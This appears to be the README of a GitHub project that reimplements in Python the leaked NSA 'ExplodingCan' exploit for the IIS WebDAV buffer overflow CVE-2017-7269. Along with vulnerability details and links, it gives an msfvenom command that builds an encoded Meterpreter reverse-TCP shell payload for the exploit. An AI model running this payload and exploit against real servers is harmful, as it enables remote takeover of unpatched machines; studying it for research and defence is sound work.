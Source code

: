 # ExplodingCan

An implementation of ExplodingCan's exploit extracted from FuzzBunch, the "Metasploit" of the NSA.

![exploit](https://user-images.githubusercontent.com/1675387/34547090-d2c7309e-f0f8-11e7-83ca-02c1955432ad.png)

## Details

* **Vulnerability**: Microsoft IIS WebDav 'ScStoragePathFromUrl' Remote Buffer Overflow
* **CVE**: [CVE-2017-7269](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-7269)
* **Disclosure date**: March 31 2017
* **Affected product**: Microsoft Windows Server 2003 R2 SP2 x86


## Why?
Months ago I needed to study this exploit, and finally I implemented it in python.

## Shellcode

The shellcode must be in alphanumeric format due to the limitations of the bug. For example we can use `msfvenom` (metasploit) with the `alpha_mixed` encoder.

```
$ msfvenom -p windows/meterpreter/reverse_tcp -f raw -v sc -e x86/alpha_mixed LHOST=172.16.20.1 LPORT=4444 >shellcode
```

## Links

* [Fuzzbunch framework](https://github.com/x0rz/EQGRP_Lost_in_Translation)
* [Metasploit module](https://www.rapid7.com/db/modules/exploit/windows/iis/iis_webdav_scstoragepathfromurl)
* [0patching the "Immortal" CVE-2017-7269](https://0patch.blogspot.com.es/2017/03/0patching-immortal-cve-2017-7269.html)
* [First exploit published](https://www.exploit-db.com/exploits/41738/)
